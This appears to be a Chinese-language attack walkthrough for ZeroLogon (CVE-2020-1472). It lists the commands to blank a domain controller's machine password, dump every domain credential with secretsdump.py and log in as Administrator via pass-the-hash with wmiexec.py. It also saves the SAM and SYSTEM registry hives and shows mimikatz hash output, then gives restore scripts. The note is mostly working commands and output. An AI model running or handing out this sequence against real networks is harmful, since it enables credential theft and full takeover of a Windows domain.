





ZeroLogon CVE-2020-1472
ref:https://xz.aliyun.com/t/8367#toc-1 https://www.anquanke.com/post/id/219374#h3-3
这个洞可以把域控的机器账户密码置空（AD里面置空，本机lssas并没有，可通过此特性来恢复密码），我们相当于对它已知密码，便可以通过DCSync把整个域的凭据导出（我们已知域控机器账户的密码为什么不直接登陆上去呢？因为域控机器账户默认不可登录，只能用DCSync远程导出凭据），从而获取域管hash，从而接管域。
前提：能访问到域控的445端口（SMB端口）
CVE-2020-1472 exp:https://github.com/risksense/zerologon or https://github.com/SecuraBV/CVE-2020-1472
python3 cve-2020-1472-exploit.py DC 10.10.10.10
通过密码dump全域hash 使用impacket工具包里的secretsdump.py https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
找到管理员hash，然后使用impacket工具包里的wmiexec.py拿下域控 https://github.com/fortra/impacket/blob/master/examples/wmiexec.py
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
把域控机器账户密码置空了，要开始考虑一下恢复的问题了。
我们先从注册表/lsass里面读取机器用户原先的hash


或者这样拿
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
在远端shell使用以上命令导出SYSTEM 和 SAM文件，并将其待会本地，由mimikatz分析
mimikatz运行
mimikatz # lsadump::sam /sam:SAM /system:SYSTEM
Domain : STU1
SysKey : fd4639f4e27c79683ae9fee56b44393f
Local SID : S-1-5-21-1982601180-2087634876-2293013296
SAMKey : 099d1915db1b0e5cf41f1f0908dc7e17
RID : 000001f4 (500)
User : Administrator
Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
RID : 000001f5 (501)
User : Guest
RID : 000003e8 (1000)
User : liukaifeng01
Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
然后通过exp下面的脚本还原密码https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py

或者不拿lssas的hash，直接通过碰撞来还原密码，比较暴力，还是用上面那个好点https://github.com/risksense/zerologon/blob/master/reinstall_original_pw.py

windows server 08-19 都能打，但是把域控密码置空可能会导致脱域(AD里面存储的机器密码跟本机的Lsass里面存储的密码不一定导致的)，慎用
